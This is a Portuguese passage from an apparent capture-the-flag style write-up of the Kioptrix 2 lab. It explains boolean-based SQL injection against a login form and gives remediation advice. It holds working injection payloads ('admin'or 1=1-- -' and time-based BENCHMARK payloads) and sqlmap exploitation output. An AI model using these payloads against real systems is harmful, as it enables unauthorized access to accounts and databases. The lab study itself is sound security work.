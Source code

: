 ![página de login](https://raw.githubusercontent.com/Pre4ch3r/blog/_posts/kioptrix_2/kioptrix_2_image/k2-0.png)

Rodando a ferramenta sqlmap, verifiquei se a página tinha vulnerabilidade a ataques de SQL injection. O sqlmap retornou que o formulário de login era vulnerável a ataques *booleanos*, ou seja, condicionais de verdadeiro ou falso. Na gravura a seguir vemos uma amostra do resultado:

![sqlmap](https://raw.githubusercontent.com/Pre4ch3r/blog/assets/images/kioptrix_2_image/k2-1.png)

**Vulnerabilidade:** SQL injection Boolean-Based

**Explicação:** 
Quando o código inserido pelo usuário não é apropriadamente sanitizado, um usuário mal intencionado pode injetar *queries sql*, que são comandos na linguagem do banco de dados. O servidor aceitará esses comandos como confiáveis e retornará ao hacker a informação solicitada. Esse é um dos ataques mais comuns, sendo listado no top 10 da OWASP.
Um sql injection boolean-based abusa da lógica de parâmetros de verdadeiro e falso. 

Exemplo: 

```bash
admin'or 1=1-- -

```

Esse código diz que o banco de dados deve verificar a existência de um usuário chamado admin. Mas ao adicionar a aspa simples " ' ", o servidor passa a ler o restante do código como uma query sql. O próximo trecho diz que a condição para o servidor liberar o acesso ao usuário é se 1 for igual a 1. Como essa condição é verdadeira, o acesso é facilmente burlado.

**Solução:** Sanitizar todo input (entradas) feito pelo usuário. Outra solução é usar uma lista branca de caracteres especiais que são permitidos aos usuários. Caracteres proibidos são filtrados pelo servidor. Além disso, erros de servidor não devem ser retornados ao usuário.


**Risco:** Alto

**Prova de Conceito:**
Trecho do sqlmap que contém o payload usado:

```bash
[19:08:16] [INFO] checking if the injection point on POST parameter 'uname' is a false positive
POST parameter 'uname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 574 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-2741' OR 9983=9983-- GTFZ&psw=&btnLogin=Login

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: uname=VBUI' AND 7493=BENCHMARK(5000000,MD5(0x5144416e))-- QIiT&psw=&btnLogin=Login
---
do you want to exploit this SQL injection? [Y/n] y
[19:09:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 4
web application technology: Apache 2.0.52, PHP 4.3.9
back-end DBMS: MySQL < 5.0.12
[19:09:56] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-08072023_0707pm.csv'
[19:09:56] [WARNING] your sqlmap version is outdated

[*] ending @ 19:09:56 /2023-08-07/


```
Após usar o payload no formulário, encontrei a página seguinte:
 